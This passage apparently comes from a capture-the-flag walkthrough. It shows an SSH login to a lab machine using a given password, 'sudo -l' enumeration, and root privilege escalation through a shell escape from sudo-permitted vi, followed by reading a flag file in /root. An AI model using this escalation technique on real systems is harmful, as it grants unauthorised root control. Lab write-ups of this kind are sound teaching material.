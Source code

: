 2. Now that you have the ip, we can go ahead an ssh. Remember to use the password the admin gave you. In our case, it was: `5d37b2`.
```
ssh remy-4a97e6@192.168.0.10
```

![Image 25](./img/img_25.png)

3. Once you login, if you try to sudo, you will realize you can't. If you perform the following command, you will be able to see what commands can `remy` perform as sudo. 
```
sudo -l
```
![Image 26](./img/img_26.png)

4. Based on that output, it seems that `remy` can perform `vi` as sudo. Find a way to use this to yout advantage and perform privilege escalation. Here is how we did it: 

```
sudo vi
:!/bin/bash
```

5. This got us privilege escalation! Let's move to the root directory to find our next route id. 
```
cd /root/
ls
cat TradingRoute5.txt
```
